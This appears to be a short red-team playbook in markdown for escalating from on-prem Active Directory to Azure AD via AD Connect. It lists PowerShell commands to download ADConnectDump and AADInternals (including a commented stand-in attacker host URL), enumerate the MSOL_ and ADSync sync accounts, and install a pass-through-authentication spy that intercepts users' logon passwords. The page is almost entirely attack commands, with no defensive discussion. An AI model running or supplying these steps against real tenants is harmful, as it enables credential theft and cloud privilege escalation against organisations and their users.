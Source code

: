 ### Attacker - Get RSAT Tools
```powershell
Enable-WindowsOptionalFeature -Online -FeatureName RSAT-AD-PowerShell
```

### Attacker - Get ADConnectDump
```powershell
iwr https://github.com/fox-it/adconnectdump/archive/refs/heads/master.zip -o
adconnectdump.zip; Expand-Archive .\adconnectdump.zip
```

### Attacker - Finding ADConnect Account 
```powershell
Get-AADIntAccessTokenForAADIAMAPI -SaveToCache
Get-AADIntAADConnectStatus
```

### Attacker - Check Domain Properties of MSOL_* user and ADSync to find Server
```powershell
Get-AdUser -Filter * -Properties * | Where {$_.DisplayName -like 'MSOL*'} 
Get-AdUser -Filter * -Properties * | Where {$_.DisplayName -like 'ADSync*'} 
```


## Scenario 1 - PassThroughAuthentication - AD to AzAD Escalation

### Requirements:
Local Admin rights on the server running the ADConnect agent 
OR 
M365 Global Admin creds 

### AADInternals -  AADIntPTASpy - MITM the PtA traffic from the agent 
Summary: Every logon against AzAd on domain gets redirected to PTA agent on-prem. PTA checks with DC if password is valid for an account. If valid, Agent reaches out to AzureAD TO REQUEST ACCESS. 

### AADInternals - Bring over Tools
```powershell
$url = "https://github.com/Gerenios/AADInternals/archive/refs/heads/master.zip"
# $url = "https://attacker.legit.com:8000/AADInternals-master.zip"
```

### AADInternals - Install
```powershell
iwr $url -o aadint.zip; Expand-Archive .\aadint.zip
Import-Module .\AADInternals.psd1
```

### AADInternals - Start MITM of PTA 
```powershell
Install-AADIntPTASPY 
```
